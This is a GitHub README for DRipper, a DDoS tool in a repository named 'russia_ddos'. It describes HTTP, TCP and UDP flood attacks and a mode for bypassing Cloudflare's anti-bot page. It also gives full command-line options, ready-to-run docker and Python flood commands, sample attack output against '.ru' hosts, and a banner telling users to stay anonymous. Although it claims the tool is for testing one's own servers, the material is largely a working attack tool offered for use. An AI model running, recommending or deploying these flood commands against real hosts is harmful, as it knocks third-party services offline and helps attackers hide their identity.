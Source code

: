 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Multiple targets support - the script can attack multiple targets at the same time
- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
───────────────────────────────────────── Starting DRipper ─────────────────────────────────────────
[23:17:39] (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Trying to connect...      services.py:135
           (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Connected                 services.py:138
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Trying to connect...  services.py:135
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Connected             services.py:138
────────────────────────────────────────────────────────────────────────────────────────────────────


                        ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                        ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                        ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                        ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                        ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                        ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                                    v2.5.0

                  It is the end user's responsibility to obey all applicable laws.
                  It is just like a server testing script and Your IP is visible.
                                Please, make sure you are ANONYMOUS!

                             https://github.com/alexmon1989/russia_ddos


 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Description                                 Status
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Start Time, Duration                        2022-04-08 23:17:29  (0:00:14)
  Your Country, Public IP                     DK   45.***.***.***
  Total Threads                               200
  vCPU Count                                  8
  Socket Timeout (seconds)                    1
  Random Packet Length                        True | Max length: 1024
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Target (tcp://www.site1.ru:80/)             1/2 (next in 1)
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Country, Host IP                            RU  192.168.0.101:80 (target-0)
  Attack Method                               TCP-FLOOD
  Threads                                     100
  CloudFlare Protection                       Not protected
  Availability (check-host.net)               ...detecting (TCP method)
  Sent Bytes @ AVG speed                      1.73 MB @ 119.76 kB/s
  Sent Packets @ AVG speed                      3,531 @ 238 packets/s
  Connections                                 success: 100, failed: 0, success rate: 100 %
 ──────────────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  [23:17:40]   info   target-0  thread-14   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-114  Creating new TCP connection...
  [23:17:40]   info   target-0  thread-16   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-20   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-22   Creating new TCP connection...

                                 Press CTRL+C to interrupt process.

                                         #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash
Usage: DRipper.py [options] arg

Options:
  --version                                             show program's version number and exit
  -h, --help                                            show this help message and exit
  -s TARGETS, --targets=TARGETS                         Attack target in {scheme}://{hostname}[:{port}][{path}] format.
                                                        Multiple targets allowed.
  -m ATTACK_METHOD, --method=ATTACK_METHOD              Attack method: udp-flood, tcp-flood, http-flood, http-bypass
  -e HTTP_METHOD, --http-method=HTTP_METHOD             HTTP method. Default: GET
  -t THREADS_COUNT, --threads=THREADS_COUNT             Total threads count. Default: 100
  -r RANDOM_PACKET_LEN, --random-len=RANDOM_PACKET_LEN  Send random packets with random length. Default: 1
  -l MAX_RANDOM_PACKET_LEN, --max-random_packet-len=MAX_RANDOM_PACKET_LEN
                                                        Max random packets length. Default: 1024 for udp/tcp
  -y PROXY_LIST, --proxy-list=PROXY_LIST                File (fs or http/https) with proxies in
                                                        ip:port:username:password line format. Proxies will be ignored
                                                        in udp attack!
  -k PROXY_TYPE, --proxy-type=PROXY_TYPE                Type of proxy to work with. Supported types: socks5, socks4,
                                                        http. Default: socks5
  -c HEALTH_CHECK, --health-check=HEALTH_CHECK          Controls health check availability. Turn on: 1, turn off: 0.
                                                        Default: 1
  -o SOCKET_TIMEOUT, --socket-timeout=SOCKET_TIMEOUT    Timeout for socket connection is seconds. Default (seconds): 1
                                                        without proxy, 2 with proxy
  -d, --dry-run                                         Print formatted output without full script running.
  --log-size=LOG_SIZE                                   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL                               Log level for events board. Supported levels: info, warn, error,
                                                        none.

Example: dripper -t 100 -m tcp-flood -s tcp://192.168.0.1:80
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -m http-flood -s http://127.0.0.1:80 
# or
docker run -it --rm alexmon1989/dripper:latest -t 100 -s http://127.0.0.1:80
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s tcp://127.0.0.1:80 

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s udp://127.0.0.1:80 
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -t 100 -s udp://127.0.0.1:80


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -t 100 -s udp://127.0.0.1:80
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install -r requirements.test.txt
```

#### Run
```bash
pytest

# with code coverage report:
pytest --cov-report=html:./htmlcov
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
